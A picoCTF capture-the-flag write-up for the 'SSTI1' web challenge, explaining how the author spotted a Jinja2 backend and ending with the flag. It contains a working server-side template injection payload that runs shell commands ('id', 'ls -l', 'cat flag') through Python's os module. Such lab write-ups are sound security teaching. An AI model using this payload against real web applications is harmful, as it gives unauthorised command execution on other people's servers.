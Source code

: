 # 2.SSTI1
I made a cool website where you can announce whatever you want! Try it out!               
Additional details will be available after launching your challenge instance.         

## Solution
So From the title itself,i guess this had to be a server side template injection.For that,i needed to know what backend was being used.So on searching for different backends,i finally figured out that it was a jinja2 backend.Hence we need to get its payload to execute commands which is '{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}'.Hence we put 'ls' instead of id to get the file contents.We find a file named flag which could hold our value.Hence we use 'cat flag' to get the flag value in the end.    
<img width="512" height="165" alt="image" src="https://github.com/user-attachments/assets/54ebb7be-b777-4aec-994c-436cac6c9934" />       

<img width="512" height="165" alt="image" src="https://github.com/user-attachments/assets/bd53161c-e018-4ac4-8ac4-ca7c8426f545" />        

<img width="512" height="165" alt="image" src="https://github.com/user-attachments/assets/ef6ecd4f-32b3-4a66-882d-2f11bbb9245b" />      

<img width="1440" height="165" alt="image" src="https://github.com/user-attachments/assets/ee1d4c80-c628-40b6-802a-b10d673815c3" />         

<img width="1440" height="165" alt="image" src="https://github.com/user-attachments/assets/77b3aee5-bd3e-4b8a-ba7d-10b84f1dfd2b" />       

<img width="1440" height="165" alt="image" src="https://github.com/user-attachments/assets/a94457ce-1c19-43f8-8e12-ebe5fe9ea4e6" />

'''       
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -l').read()}}       
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}       
'''      

## Flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}

## Concepts Learnt
I learnt the concept of server side template injection and how one can use certain commands to figure out what kind of backend is being used.I also learnt about the use of payloads which help in executing commands in Web dev.     

## Resources
https://onsecurity.io/article/server-side-template-injection-with-jinja2/      









